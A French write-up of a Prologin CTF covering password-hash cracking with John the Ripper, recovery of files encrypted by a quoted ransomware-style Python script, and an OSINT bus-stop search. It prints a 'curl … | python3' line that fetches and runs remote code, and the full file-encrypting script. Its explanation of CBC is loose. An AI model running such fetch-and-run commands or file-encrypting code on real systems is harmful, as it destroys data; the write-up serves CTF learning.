

CTF PROLOGIN 2024-2025 Partie 2
partie 1 Système
Pour ce challenge, on nous fournit les fichiers d'une machine virtuelle et on nous demande de trouver le mot de passe.
Pour commencer, j'ai monté le disque de la machine "JosephMachine-disk1.vmdk" comme inviter sur ma machine avec l'utilitaire guestmount, c'est là que commence l'exploration j'ai commencé par aller chercher du côté du dossier /home/jm comme indiquer dans les consignes on trouve assez vite deux fichiers intéressent. En premier lieux un fichier qui indique la méthodologie de jm pour choisir ses mots de passe en l'occurrence encadrer un mot extrais d'une wordliste par "PROLOGIN{%mot%}" comble de la chance le deuxième fichier est la dite wordliste.
Pour retrouver le mot de passe on extrais le hashe du mot de pass de jm du fichier /etc/shadow qui sert a stocker les mot de passe dans les systeme linux.
Pour finir, on utilise john the ripper un utilitaire qui sert à casser du hash :
john --wordlist=wordlist2.txt hash.txt
Et comme prévu après quelques secondes :
jm:PROLOGIN{jm1234}:20055:0:99999:7:::
partie 2 Cryptographie
Dans cette partie, on nous demande de retrouver des fichiers qui ont été chiffrés par une commande, nous dit-on.
On commence donc par aller jeter un œil au fichier /home/jm/.bash_history. On trouve assez vite la ligne problématique :
curl https://pastebin.com/raw/HSiSqY5e | python3
La première moitié de la ligne va récupérer un script Python sur Pastebin, la seconde l'exécute.
On va donc regarder ce script :
import os
from socket import gethostname
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
key = b"Je suis mechant!"
cipher = AES.new(key=key, mode=AES.MODE_CBC)
target_path = os.path.join(os.path.expanduser("~"), "Documents/Secret_work")
def encrypt_file(file_path, cipher):
print("Encrypting " + file_path + "...")
with open(file_path, "rb") as f:
plaintext = f.read()
ciphertext = cipher.encrypt(pad(plaintext, 16))
with open(file_path, "wb") as f:
f.write(ciphertext)
def hack(directory, cipher):
for root, _, files in os.walk(directory):
for file in files:
file_path = os.path.join(root, file)
encrypt_file(file_path, cipher)
if __name__ == "__main__" and gethostname() == "jm-pc":
# Attention : Évitez de lancer ce script sur votre propre ordinateur
print("Ahahah you have been hacked")
hack(target_path, cipher)Ce script commence donc par vérifier qu'il est bien sur le bon PC en vérifiant l'hostname. Si c'est le cas, il va alors parcourir les fichiers du dossier /home/jm/Documents/Secret_work et les chiffrer en AES avec la clef "Je suis méchant !".
Malheureusement, ce serait trop simple de déchiffrer les fichiers avec cette clef, il nous manque un élément, les IV . En effet, en AES CBC, la procédure suivante est appliquée pour chiffrer un message : le message est découpé en blocs, chaque bloc est chiffré en AES avant d'être XORé avec le bloc précédent chiffré, donc on peut déchiffrer le message, excepté le premier bloc qui dépend des IV.
Mais un autre détail va grandement nous aider dans son implémentation : le hacker ne crée pas un nouvel objet AES à chaque fichier, donc pour peu que le fichier flag n'ait pas été le premier à être chiffré, on peut potentiellement le déchiffrer . On va donc écrire un script qui teste tous les fichiers et vérifie pour chacun si ses derniers octets sont l'IV pour le fichier flag.
import os
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
key = b"Je suis mechant!"
target_path = "Secret_work"
ciphertext = open("Secret_work/sujets/flag.txt", "rb").read()
def decrypt_file(file_path, iv):
print("Decrypting " + file_path + "...")
nextee = open(file_path, "rb").read()
cipher = AES.new(key=key, mode=AES.MODE_CBC, iv=iv)
plaintext = unpad(cipher.decrypt(ciphertext), 16)
print(plaintext)
return nextee[-16:] # Retourner les derniers 16 octets comme IV pour le fichier suivant
def restore(directory):
files = []
for root, _, filenames in os.walk(directory):
for filename in filenames:
files.append(os.path.join(root, filename))
# Supposons que l'IV initial est connu ou peut être déduit
initial_iv = b'initial_iv_here ' # Remplacez par l'IV réel si connu
for i, file_path in enumerate(files):
if i == 0:
iv = initial_iv
else:
iv = previous_iv
previous_iv = decrypt_file(file_path, iv)
if __name__ == "__main__":
# Attention : Assurez-vous que ce script est exécuté sur le bon ordinateur
print("Restoring your files...")
restore(target_path)On notera que ce script est particulièrement mal foutu, mais on obtient bien :
Decrypting Secret_work/cours/Important/Math... b"PROLOGIN{Si_l3_debut_IL_te_m4nque_l'IV_il_te_faut_R3cherCher}\n"
partie 3 OSINT
Pour ce dernier challenge (oui, déjà ☹), on nous demande de retrouver un arrêt de bus dont une image serait dans la boite mail Thunderbird de jm.
Après quelques recherches dans les fichiers de l'application, on trouve plusieurs images dans le dossier /home/jm/.cache/thunderbird/.
Une d'entre elles est l'image que l'on cherche, mais malheureusement sa qualité est trop mauvaise : c'est un preview basse qualité. Heureusement, on trouve dans le méthadone le chemin vers la version non compressée.
Thumb URI : file:///home/jm/Pictures/rdv.jpg
On va récupérer cette image que voici.

Plusieurs détaille sont intéressent on as la tour Effeil donc on est sur la ligne 42 pas loin de la tour Effeil. Pour trouver l'arrêt j'ai simplement cherché l'itinéraire en transport en commune le plus rapide depuis le terminus de la ligne puis j'ai reperer toutes les rues dans l'axe de la tour Effeil après un peu de recherche, on trouve aisément l'arrêt "Docteur Finlay".